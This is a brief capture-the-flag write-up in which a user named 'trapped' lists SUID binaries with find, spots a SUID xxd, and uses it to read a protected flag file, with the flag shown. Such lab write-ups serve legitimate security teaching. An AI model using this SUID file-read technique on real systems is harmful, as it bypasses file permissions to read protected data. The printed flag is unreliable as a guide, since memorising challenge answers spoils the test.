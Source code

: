 # Setup

We are given ssh access as user `trapped` and the `flag.txt` just sits
in plain sight but we don't have the correct permissions to read it.

# Solve

Poking around the system for clues:

```sh
trapped@47ca6c33ca55:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/xxd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

`xxd` seems out of place and lets us read the flag

```sh
trapped@47ca6c33ca55:~$ xxd flag.txt
00000000: 7574 666c 6167 7b53 7065 6369 614c 5f50  utflag{SpeciaL_P
00000010: 6572 6d69 7373 696f 6e7a 7d0a            ermissionz}.
```
